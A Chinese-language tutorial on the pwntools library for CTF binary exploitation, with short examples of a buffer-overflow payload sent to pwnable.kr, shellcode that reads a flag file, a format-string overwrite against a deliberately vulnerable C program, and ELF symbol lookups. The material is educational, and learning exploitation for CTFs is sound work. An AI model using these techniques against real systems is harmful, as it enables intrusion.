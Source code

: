 # Pwntools

## remote

```python
from pwn import *
c = remote("pwnable.kr", 9000)
c.sendline("AAAA" * 13 + p32(0xcafebabe))
c.interactive()
```

`remote("domain/ip", port)`

- `send(payload)` 发送payload
- `sendline(payload)` 发送payload，并进行换行（末尾**\n**）
- `sendafter(some_string, payload)` 接收到 some_string 后, 发送你的 payload
- `recvn(N)` 接受 N(数字) 字符
- `recvline()` 接收一行输出
- `recvlines(N)` 接收 N(数字) 行输出
- `recvuntil(some_string)` 接收到 some_string 为止

`p32`可以转换整数到小端序.同样存在`p16 p64`

## process

```python
from pwn import *
 
p = process("./asm")
context.log_level = 'DEBUG'
gdb.attach(p)
 
context(arch='amd64', os='linux')
 
shellcode = shellcraft.amd64.pushstr("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong")
shellcode += shellcraft.amd64.linux.open('rsp',0,0)
shellcode += shellcraft.amd64.linux.read('rax','rsp',0)
shellcode += shellcraft.amd64.linux.write(1, 'rsp', 100)
 
p.recvuntil('shellcode: ')
p.send(asm(shellcode))
log.success(p.recvall())
```

`process` 和`remote`类似. `process` 则通过你声明的二进制文件路径在本地创建新的进程. 除了 I/O, `process` 返回的对象可以通过 `gdb.attach(p)` 将进程attach到gdb上. Attach 之后, gdb 便可以调试该程序来 (设置 breakpoints, 查看 stack, 以及简单的反汇编). 

 当我们想查看服务器输出时，并不需要在每个 `recvline` 或者 `recvuntil` 前加 `print`. 当 `context.log_level` 被设置为 `"DEBUG"` , 我们的输入和服务器的输出会被直接输出 

 `shellcraft` 是一个帮忙生成shellcode的类. 在我们的例子中, 我们 *open* 了一个文件并 *read* 文件到 *stdout*. 关于这个类更多的文档, 你可以查阅 [官方文档](http://docs.pwntools.com/en/stable/shellcraft.html). 

## FmtStr

```python
from pwn import *
import tempfile
 
program = tempfile.mktemp()
source  = program + ".c"
write(source, '''
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>
#define MEMORY_ADDRESS ((void*)0x11111000)
#define MEMORY_SIZE 1024
#define TARGET ((int *) 0x11111110)
int main(int argc, char const *argv[])
{
       char buff[1024];
       void *ptr = NULL;
       int *my_var = TARGET;
       ptr = mmap(MEMORY_ADDRESS, MEMORY_SIZE, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE, 0, 0);
       if(ptr != MEMORY_ADDRESS)
       {
               perror("mmap");
               return EXIT_FAILURE;
       }
       *my_var = 0x41414141;
       write(1, &my_var, sizeof(int *));
       scanf("%s", buff);
       dprintf(2, buff);
       write(1, my_var, sizeof(int));
       return 0;
}''')
cmdline = ["gcc", source, "-Wno-format-security", "-m32", "-o", program]
process(cmdline).wait_for_close()
def exec_fmt(payload):
    p = process(program)
    p.sendline(payload)
    return p.recvall()
 
autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
p = process(program, stderr=PIPE)
addr = u32(p.recv(4))
payload = fmtstr_payload(offset, {addr: 0x1337babe})
p.sendline(payload)
print hex(unpack(p.recv(4)))
```

 有了 `FmtStr`, 我们不用算偏移量算到疯. 我们需要先构造一个可以接收我们输入并返回格式化字符串输出的函数. 接着，我们可以得到 `autofmt`. 这个对象包含 `offset`, 即算好的偏移量. `fmtstr_payload(offset, {address: value})` 帮我们生成最后的payload. 第一个参数 `offset` 用 `autofmt.offset` 算好的即可. 然后, 我们需要声明 `{address: value}` 来覆盖address的内容成对应的value. 我们还可以同时改写多个地址: `{address1: value1, address2:value2,..., address: valueN}`. 

 有些情况不能自动生成payload. 以下文档介绍了如何手动生成payload [fmtstr_payload](http://docs.pwntools.com/en/stable/fmtstr.html#pwnlib.fmtstr.fmtstr_payload). 

## ELF()

 有些题目给了我们libc. 用 `gdb> x function1 — function2` 算偏移量太麻烦了, 因此有了 `ELF`. 

```python
from pwn import *
 
e = ELF('./example_file')
print hex(e.address)  # 0x400000
print hex(e.symbols['write']) # 0x401680
print hex(e.got['write']) # 0x60b070
print hex(e.plt['write']) # 0x401680
offset = e.symbols['system'] - e.symbols['printf'] # calculate offset
binsh_address = next(e.search('/bin/sh\x00')) # find address which contains /bin/sh
```

和 `process()` 一样, 我们只用将路径给 `ELF(path)` 即可分析 ELF.

 

我们有以下几种方法操纵ELF:

- `symbols['a_function']` 找到 `a_function` 的地址
- `got['a_function']` 找到 `a_function`的 got
- `plt['a_function']` 找到 `a_function` 的 plt
- `next(e.search("some_characters"))` 找到包含 `some_characters`（字符串，汇编代码或者某个数值）的地址.

 https://bbs.pediy.com/thread-247217.htm 